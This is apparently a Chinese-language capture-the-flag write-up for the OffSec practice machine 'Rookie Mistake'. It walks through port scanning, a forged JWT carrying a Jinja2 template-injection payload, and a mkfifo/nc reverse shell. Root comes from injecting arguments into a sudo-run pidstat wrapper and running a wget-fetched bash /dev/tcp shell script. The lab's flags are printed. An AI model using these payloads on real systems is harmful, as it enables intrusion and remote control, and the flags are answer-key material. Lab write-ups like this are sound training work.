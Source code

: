 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Rookie Mistake
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.169.221 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.169.221:22
Open 192.168.169.221:8080

PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy syn-ack Werkzeug/2.1.2 Python/3.8.10
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Mike's upcoming dynamic website!
|_http-server-header: Werkzeug/2.1.2 Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Thu, 25 Apr 2024 06:45:40 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2469
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head> 
|     <meta charset="UTF-8">
|     <title>Mike's upcoming dynamic website!</title>
|     <!-- Mobile Specific Meta --> 
```

buster
```
┌──(kali㉿kali)-[~/pgplay]
└─$ gobuster dir -u http://192.168.169.221:8080 -w /home/kali/SecLists/Discovery/Web-Content/common.txt

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/edit                 (Status: 308) [Size: 253] [--> http://192.168.169.221:8080/edit/]
/login                (Status: 308) [Size: 255] [--> http://192.168.169.221:8080/login/]
/signup               (Status: 308) [Size: 257] [--> http://192.168.169.221:8080/signup/]
Progress: 4727 / 4727 (100.00%)
===============================================================
```

順序
1. `http://192.168.169.221:8080/signup/` 註冊一個帳號我用admin/admin
2. `http://192.168.169.221:8080/login/` 登入
3. `http://192.168.169.221:8080/edit/` 改密碼為ilovejwt，F12 -> Storage查看token的value，複製貼上至[JWT.io](https://jwt.io/?)
4. 將username改為`{{7*7}}`後，複製左邊的token貼到F12的storage按右上角的重整，再看頁面的重整看login name有沒有改成49

附上code
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Int7Nyo3fX0iLCJwdWJsaWNfaWQiOiIyNzVhNjNmYi03OGYyLTQyNGMtYWNjNi1iYzA0Nzg3ZjRmZjIiLCJleHAiOjE3MTQwMzEyOTB9.l1bwqVpmHzBf9ljzZ5Z-ShNx6fx1RhM43S2buCXWrdY
```

確認可以參考[Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection-without-less-than-class-object-greater-than)，確認可以執行ls
```
#RCE
username改成
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__('os').popen('ls').read() }}

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Int7IGNvbmZpZy5fX2NsYXNzX18uZnJvbV9lbnZ2YXIuX19nbG9iYWxzX18uX19idWlsdGluc19fLl9faW1wb3J0X18oJ29zJykucG9wZW4oJ2xzJykucmVhZCgpIH19IiwicHVibGljX2lkIjoiMjc1YTYzZmItNzhmMi00MjRjLWFjYzYtYmMwNDc4N2Y0ZmYyIiwiZXhwIjoxNzE0MDMxMjkwfQ.1sd4H_76SmNqv6OyUlr1jZ4M3qdP81nypGtbrUlJQzw
```

執行reverseshell
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp8080

{
  "username": "{{ config.__class__.from_envvar.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.236 8080 >/tmp/f').read() }}",
  "public_id": "275a63fb-78f2-424c-acc6-bc04787f4ff2",
  "exp": 1714031290
}

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Int7IGNvbmZpZy5fX2NsYXNzX18uZnJvbV9lbnZ2YXIuX19nbG9iYWxzX18uX19idWlsdGluc19fLl9faW1wb3J0X18oJ29zJykucG9wZW4oJ3JtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjM2IDgwODAgPi90bXAvZicpLnJlYWQoKSB9fSIsInB1YmxpY19pZCI6IjI3NWE2M2ZiLTc4ZjItNDI0Yy1hY2M2LWJjMDQ3ODdmNGZmMiIsImV4cCI6MTcxNDAzMTI5MH0.hm-meW8frsb3upqiz2N2afeHfnA5S7mamcGS8XE_aYQ
```

貼上重整就可以得反彈shell，在`/home/mike`可得local.txt
```
mike@MikeServer:~$ cat local.txt
d6ac9c5c093bb53a50bb5b3be60bf7b6
```

查看`sudo -l`，執行`PidMonitorServer`發現他會運行在`9123port`，可以加上`&`來讓他在背景執行
```
mike@MikeServer:~$ sudo -l
sudo -l
Matching Defaults entries for mike on MikeServer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on MikeServer:
    (ALL) NOPASSWD: /usr/local/bin/PidMonitorServer

mike@MikeServer:~$ sudo /usr/local/bin/PidMonitorServer &
sudo /usr/local/bin/PidMonitorServer
Access Mike's own process monitor server started at port 9123!
```

利用curl來查看，發現他是一個`pid monitor`，可認知為`pidstat`，查看[GTFOBins](https://gtfobins.github.io/gtfobins/pidstat/#sudo)，利用`-e id`可得id
```
mike@MikeServer:~$ curl http://127.0.0.1:9123
<h1>Welcome to my PID status monitor. You can specify the PID in the URL '/pid/*'!

curl 127.0.0.1:9123/pid/1%20-e%20id

mike@MikeServer:~$ curl 127.0.0.1:9123/pid/1%20-e%20id
<h1>Getting status of PID: 1 -e id...</h1>

b'Linux 5.4.0-121-generic (MikeServer) \t04/25/2024 \t_x86_64_\t(2 CPU)\n\n08:55:55 AM   UID       PID    %usr %system  %guest   %wait    %CPU   CPU  Command\n08:55:55 AM     0         1    0.07    0.19    0.00    0.02    0.26     0  systemd\n08:55:55 AM     0      1836    0.00    0.00    0.00    0.00    0.00     1  pidstat\nuid=0(root) gid=0(root) groups=0(root)\n
```

下載一個reverseshell
```
#pwn.sh
bash -c 'bash -i >& /dev/tcp/192.168.45.236/22 0>&1'

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp22

mike@MikeServer:~$ wget 192.168.45.236:22/pwn.sh
mike@MikeServer:~$ chmod +x pwn.sh
mike@MikeServer:~$ curl 127.0.0.1:9123/pid/1%20-e%20bash%20.%2Fpwn.sh
```

得回彈，可到/root得proof.txt
```
root@MikeServer:~# cat proof.txt
0d62a282eb8e833c77b0ed9c4da76d0c
```